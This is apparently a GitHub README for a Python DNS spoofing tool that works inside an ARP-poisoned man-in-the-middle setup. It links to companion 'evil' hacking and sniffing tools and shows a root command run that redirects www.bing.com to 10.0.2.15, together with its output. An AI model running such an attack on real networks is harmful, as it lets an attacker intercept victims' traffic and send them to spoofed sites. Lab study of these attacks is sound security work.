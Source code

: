 ## DNS Spoofing Attack under MitM envornment

For use this tool you must work under MitM environment, in taht case,
on the one hand we posioned the target_ip(victim) with our mac addres instead of 
router mac address and in the other hand posinoed  the router ip with our mac addres instead of target ip mac address:


![arp_apoofing](spoofing_mac_address.png)


You automatically recreate this enviromnet on your network with this tool:
https://github.com/f0ns1/evilHackingPythonTool

You can sniff the FORWARD network traffic of your victim using this script(but isn't mandatory for exploit a DNS Spoofing attack):
https://github.com/f0ns1/evilSImpleSnifferPython




# Run attack 

    root@kali:~/PycharmProjects/mitm_process.py# python dns_spoofing.py -o "www.bing.com" -d "10.0.2.15"
    init attack ....DNS 
    Enable Iptables queue for input target packets ... on queue number 0
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    ^C[*] CRTL +C Detecting ... Flush queue for Iptables on local machine 
    [*] End program 


## User Access to spoofing domain: -o "www.bing.com" -d "10.0.2.15"

![dns_spoofing](dns_spoofing1.png)



![dns_spoofing](spoofing2.png)



## dependencies

    netfilterqueue
    subprocess
    optparse
